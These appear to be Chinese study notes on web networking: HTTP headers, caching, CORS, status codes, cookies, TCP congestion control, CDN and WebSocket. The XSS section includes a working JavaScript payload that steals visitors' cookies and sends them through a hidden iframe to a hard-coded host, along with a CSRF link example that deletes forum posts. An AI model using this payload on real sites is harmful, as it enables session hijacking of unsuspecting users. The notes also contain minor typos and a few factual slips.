



## Http 头部

###  Http头部字段X前缀

X前缀的作用是添加自定义字段，X表示Extension。使用例子：

- `X-Forwarded-For`: 标记通过代理访问服务器的原始客户端IP地址
- `X-Forwarded-Host`: 标记通过代理访问服务器的原始客户端Host名
- `X-Forwarded-Proto`: 标记原始客户端通过代理访问服务器时用的协议
- `X-Powered-By`: 标记框架、技术、环境等

### Keep-Alive

能够复用管道。

```
Keep-Alive: timeout=5, max=1000
```

其中timeout表示空闲管道最多打开时间，单位是秒。max表示在连接关闭之前，此连接可以发送的请求的最大值。

## HTTP缓存

参考：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Caching_FAQ

浏览器缓存：**浏览器缓存是私有的**，是浏览器通过http请求后下载的文档，这些缓存用于为浏览过的网页提供导航，保存网页等。

**缓存目标**：常见的http缓存只能存GET响应，缓存对象：

1. GET请求成功的响应：响应状态码200，包含图片、html、文件响应。
2. 永久重定向301。
3. 错误响应，状态码404的页面。
4. 不完全响应（状态码206）。
5. 除GET以外，匹配到已定义cache键名的响应。

​	

**请求首部字段：**

if-match：比较ETag是否一致。

If-none-match：比较Etag是否不一致。

If-modified-since：比较资源最后的更新时间是否一致。

If-unmodified-since：比较资源最后更新时间是否不一致。

**响应首部字段：**

ETag：资源匹配信息，用某个标志符来指定这个资源，指定资源后服务器才能知道这个资源是不是应该被更新。

Last-modified：资源最后一次修改时间。

###  **Cache-Control**字段

HTTP/1.1定义的Cache-Control用于区分对缓存机制的支持情况，请求头和响应头都支持这个属性，通过它来定义缓存策略。

Cache-Control :**[cache-directive]**

其中cache-directive表示为请求首部：

**Cache-Control: no-store;** 禁止进行缓存，浏览器发起的请求都会下载完整的内容。

**Cache-Control: no-cache;** 强制确认缓存，每次请求发出后，会将此请求发送到服务器，服务器会验证请求中所描述的缓存是否过期（配合请求带有缓存验证相关的字段）。未过期则服务器响应304，浏览器会使用本地缓存副本。

**Cache-Control:private;** 默认为private，当某个页面是专门用于某个用户时，中间人不将其缓存。

**Cache-Control:public;** public表示该响应可以被任何中间人缓存（CDN、中间代理）。

**Cache-Control: max-age=\<seconds>;** 表示资源能够被缓存的最大秒数。针对应用中那些不会被改变的文件（比如图片、css、js等静态资源）。

**Cache-Control: must-revalidate;** 使用这个指令后，在使用一个陈旧资源时，必须先验证他的状态。



响应首部时：



### 缓存新鲜度

- 浏览器缓存空间有限，因此会定期删除一些副本。因为是C/S架构，服务器那边通知不了浏览器，所以双方需要协商资源的过期时间。
- 当浏览器发起请求时检索到一个陈旧缓存，则此请求附加一个`If-None-Match`字段，如果服务器发现资源是新鲜的，返回304（Not Modified）响应，若通过`If-None-Match`或`If-Modified-Since`判断后发现已经过期，则返回资源给浏览器。
- 包含`Cache-Control: max-age=<second>`这样的字段会计算缓存寿命，如果不包含这个字段会去查看`Expoires`或者`Last-Modified`.

### revving技术
在不频繁更新的文件后面使用特殊命名方式URL+版本号。


### 缓存验证
当缓存文档过期后，需要对缓存进行验证或者重新获取。
1. 强校验器，ETag响应头是一个对用户透明的值，后续用户会在请求头中带上`If-Not-Match`来验证。
2. 弱校验器，响应头`Last-Modified`含有这个信息，后续的请求中带上`If-Modified-Since`来验证。
### 带Vary头的响应
`Vary`响应头设置后，之后的请求只有和缓存的Vary相同才能匹配。


### 整个缓存流程
强校验，使用`Etag`
1. 浏览器请求资源
2. 服务器返回`Etag: AAAAAAAA`，设置`Cache-Control: Max-age=10;`
3. 10秒过后，资源过期，再次请求，请求头包括`If-None-Match: AAAAAAA;`。
4. 服务器判断该资源内容是否发生变化，如果没有变化返回304，发生变化，返回资源。

弱校验，使用`Last-Modified`字段
1. 浏览器请求资源
2. 服务器响应资源内容，同时头部携带`Last-Modified`字段。
3. 当资源过期后，浏览器的请求带上`If-Modified-Since: 时间`。
4. 服务器那边比较资源修改时间和`If-Modified-Since`的时间，如果一致就使用本地缓存304，如果不一致返回`Last-Modified`和内容。
缺点：使用的是GMT时间精确到秒，如果文件多次改动，但是内容没有变化，也会重新返回文件。
### 用户刷新行为

刷新行为有3种：再次在URL输入框里输入、F5刷新、Ctrl+F5.

1. 再次在URL输入框里输入：浏览器发现资源没过期就会返回200（from cache）
2. F5刷新：会想服务器发出HTTP请求，服务器会返回304（Not Modified）
3. Ctrl+F5:强制刷新，请求中的If-modified-since会被去掉，加上Cache-control：no-cache相当于重新请求。

## HTTP跨域

跨域资源共享，使用额外的HTTP头部来告诉浏览器上的web应用可以访问来自不同服务器上的指定资源。当资源从**不同域、协议、端口**的web应用中请求，就会发起一个跨域HTTP请求。

比如在站点http://sb.com的HTML页面通过``请求图片。

浏览器会限制跨域的请求，或者限制得到的响应，如果响应没有携带正确跨域响应头。

### 允许的跨域请求

- XMLHttpRequest或者Fetch发起的跨域Http请求
- Web字体（css通过`@font-face`使用跨域字体资源）
- WebGL贴图
- canvas使用`drawImage`

### 跨域预检请求

对于简单的请求：GET、HEAD、POST以及没有人为添加的首部字段，不需要预检请求，直接响应。其中响应头部增加了跨域字段：

```http
GET /resources/public-data/ HTTP/1.1
Host: bar.other
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b3pre) Gecko/20081130 Minefield/3.1b3pre
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: keep-alive
Referer: http://foo.example/examples/access-control/simpleXSInvocation.html
Origin: http://foo.example

HTTP/1.1 200 OK
Date: Mon, 01 Dec 2008 00:23:53 GMT
Server: Apache/2.0.61 
Access-Control-Allow-Origin: *
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: application/xml

[XML Data]
```

预检请求是一个HTTP的Option请求到服务器，获知服务器是否允许该实际请求，避免跨域请求对服务器产生的影响。下面是一个预检请求的例子：

```http
OPTIONS /resources/post-here/ HTTP/1.1
Host: bar.other
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b3pre) Gecko/20081130 Minefield/3.1b3pre
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: keep-alive
Origin: http://foo.example
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-PINGOTHER, Content-Type


HTTP/1.1 200 OK
Date: Mon, 01 Dec 2008 01:15:39 GMT
Server: Apache/2.0.61 (Unix)
Access-Control-Allow-Origin: http://foo.example
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
Vary: Accept-Encoding, Origin
Content-Encoding: gzip
Content-Length: 0
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/plain
```

### 附带身份凭证（Cookie）的请求

可以在XMLHttpRequest中设置请求携带凭证，之后的响应需要携带`Access-Control-Allow-Credentials: true`，并且`Access-Control-Allow-Origin`不能设置为*，必须指定域名，否则浏览器不会将响应传给web应用。

在xhr中要设置`xhr.withCredentials = ture;`

## HTTP Status

**信息响应10X：**

1. 100：Continue，临时响应表示，迄今所有内容都是可行的。
2. 101：Switching Protocol，比如在请求中包含Upgrade：Websocket，切换协议为websocket协议。

**成功响应20X：**

1. 200：OK，请求成功
2. 201：Created，创建了一个新资源，一般在POST之后。

**重定向30X：**

1. 301：Moved Permanently，资源被永久转移，浏览器会将请求位置转移为响应中指示的地址。
2. 302：Found，临时从不同的URI响应，重定向是临时的，浏览器应该还是原来的地址请求。
3. 304：Not Modified，浏览器发送了一个GET请求，而资源的内容没有发生改变，则服务器响应304。

**客户端响应40X：**

1. 400：bad request，客户端的请求语意错误。
2. 401：Unauthorized，请求必须用户验证，响应会包含www-authenticate请求头。
3. 403：Forbidden，服务器已经理解请求，但是拒绝执行它。
4. 404：Not Found，请求失败，请求希望得到的资源未在服务器上发现，不知道这个资源以后还在这没有，**被广泛运用于服务器不想揭示请求拒绝的原因。**
5. 405：Method Not Allow，请求行中的请求方法不能被请求对应的资源。响应会添加一个allow字段，用于指定当前资源可以使用的方法。
6. 406：Not Acceptable，请求字段值无法生成响应。
7. 410：Gone，资源永久性的被转移，但不知道被转移到哪。

服务队响应50X：

1. 500: Internal Server Error，服务端遇到无法处理的错误，内部实现抛出异常。
2. 501: Not Implemented，这个HTTP的方法服务器不支持。
3. 502：Bad Gateway，从Flask那的响应报错，导致Nginx响应的502.
4. 505: HTTP Version Not Supported，HTTP的版本不支持。

## XSS与CSRF

### XSS：跨站脚本

Cross-site scripting，通常简称为XSS，将恶意javascript代码注入网站中。

```javascript
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

上面的代码注入到评论中会使得其他用户访问这个页面会发送cookie到192.168.123.123/myxss/

### CSRF：跨站请求伪造

Cross-site request forgery，用于伪造用户的请求。

简单的CSRF攻击）：一个论坛，经过分析了解到这个论坛的删帖操作是触发` csdnblog.com/bbs/delete_article.php?id=“X"` 那么，我只需要在论坛中发一帖，包含一链接：`www.csdnblog.com/bbs/delete_article.php?id=“X" `，只要有用户点击了这个链接，那么ID为X的这一篇文章就被删掉了，而且是用户完全不知情的情况！


防御：

1. 检查http头部的referer字段，它记录了HTTP请求的来源地址。
2. 在头部添加随机生成的token字段，这个字段在用于刚登陆的时候随机生成，之后用户的请求需要带上这个token。

## Cookie

cookie是服务器发给浏览器并保存在本地的数据，用于保存用户会话状态、购物车、个性设置等。

Cookie分为两种：

1. Session Cookie: 不指定过期时间。仅在会话期内有效。关闭tabs后自动删除
2. Permanent Cookie:指定一个过期时间或者有效期。

## TCP

### TCP拥塞避免

拥塞避免主要影响**发送端**。

Tcp通过**拥塞窗口cwnd**、**慢启动阈值ssthresh**来进行拥塞控制。

当cwnd小于ssthresh的时候，慢启动，否则进行拥塞避免。

1. 发生超时，超过RTO还没收到ACK，则**ssthresh设置为当前cwnd窗口大小的一半，cwnd被设置为1个报文段。**

2. 接受到ACK时，如果cwnd<=ssthresh，就执行慢启动，cwnd+=1，否则执行拥塞控制，没收到cwnd个包才加1。

3. 发送方发出的字节**小于cwnd和接受窗口的最小值**。

 

收到重复ACK：当连续收到三个重复ACK时，表示报文丢失了，不用等超时定时器了，直接**快速重传**。快速重传做下面的事情：

1. 把ssthresh设置为cwnd的一半

2. Cwnd= ssthresh + 3

3. 然后进入拥塞避免阶段

 

**快速恢复**算法改变了快速重传收到三个重复ACK后进入拥塞避免阶段，而是进入快速恢复阶段，主要步骤如下：

1. 当收到3个重复ACK时，把ssthresh设置为cwnd的一半，把cwnd=ssthresh+3

2. 再次收到重复ACK时，把cwnd += 1

3. 直到收到新的数据ACK时，把cwnd设置为第一步中的ssthresh。

RTO（Retransmission Timeout）：表示重传超时时间，如果超过这个时间还没收到ACK就重新发送



## CDN

比如美国到中国的跨洋长传，如果直线距离6000km，而光速是30000km/s，那么需要20ms，往返需要40ms，而如果在中国有CDN将静态的图片、视频、音乐缓存的话，节省很多时间。

**进行DNS查询：**

1. 如果系统缓存没有这个域名信息，那么会向local dns进行查询（local dns也就是用户指定为8.8.8.8这种）。

2. local dns没有会按照根域名DNS服务器、顶级域服务器、二级域服务器进行递归查询。
3. 最后二级域名服务器告诉local dns去三级域名哪查，local dns请求三级域名，得到域名对应的dns。
4. 在请求时会访问到CDN厂商的Global load balance，会根据用户的local dns请求附近的CDN。

## Websocket

websocket是全双工通信协议。

首先通过HTTP协议建立连接，下面是连接建立的请求。

```http
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Origin: https://example.com
Sec-WebSocket-Protocol: chat, superchat
Sec-WebSocket-Version: 13
```

下面是连接建立的响应：

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
Sec-WebSocket-Protocol: chat
```

连接建立后（握手成功后），使用websocket协议
